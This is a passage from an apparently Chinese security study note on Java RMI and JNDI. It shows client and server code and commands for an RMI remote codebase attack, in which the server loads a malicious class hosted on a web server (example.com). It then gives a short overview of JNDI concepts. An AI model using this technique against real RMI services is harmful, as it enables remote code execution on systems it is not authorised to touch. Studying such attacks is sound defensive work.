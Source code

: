 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>javac *.java<br>java -Djava.rmi.server.hostname=10.28.178.250 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer<br>``` |

RMIClient.java:

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>import java.rmi.Naming;<br>import java.util.List;<br>import java.util.ArrayList;<br>import java.io.Serializable;<br>public class RMIClient implements Serializable {<br>    public class Payload extends ArrayList<Integer> {}<br>    public void lookup() throws Exception {<br>        ICalc r = (ICalc)<br>Naming.lookup("rmi://10.28.178.250:1099/refObj");<br>        List<Integer> li = new Payload();<br>        li.add(3);<br>        li.add(4);<br>        System.out.println(r.sum(li));<br>    }<br>    public static void main(String[] args) throws Exception {<br>        new RMIClient().lookup();<br>} }<br>``` |

这个 Client 需要在另一个位置运行，需要让 RMI Server 在本地 CLASSPATH 里找不到类，才会去加载 codebase 中的类，所以不能将 RMIClient.java 放在 RMI Server 所在的目录中。

运行 RMIClient：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://example.com/ RMIClient<br>``` |

只需要编译一个恶意类，将其 class 文件放置在 Web 服务器的 `/RMIClient$Payload.class` 即可。

## [](#2-jndi)2 JNDI

JNDI (Java Naming and Directory Interface) ，包括 Naming Service 和 Directory Service。JNDI 是 Java API，**允许客户端通过名称发现和查找数据、对象**。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

### [](#21-jndi-%E7%BB%84%E6%88%90)2.1 JNDI 组成

-   Nameing Service

命名服务，命名服务将命名名称和对象进行关联，提供通过名称找到对象的操作

-   Name

名称，要在命名系统中查找对象，需要提供对象的名称

-   Binding

绑定，一个名称和一个对象的关链称为一个绑定

-   Reference

引用，在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用

-   上下文

上下文，一个上下文是一系列名称和对象的绑定的集合

## [](#%E5%8F%82%E8%80%83)参考

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS 那些事儿](https://paper.seebug.org/1091/)

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)
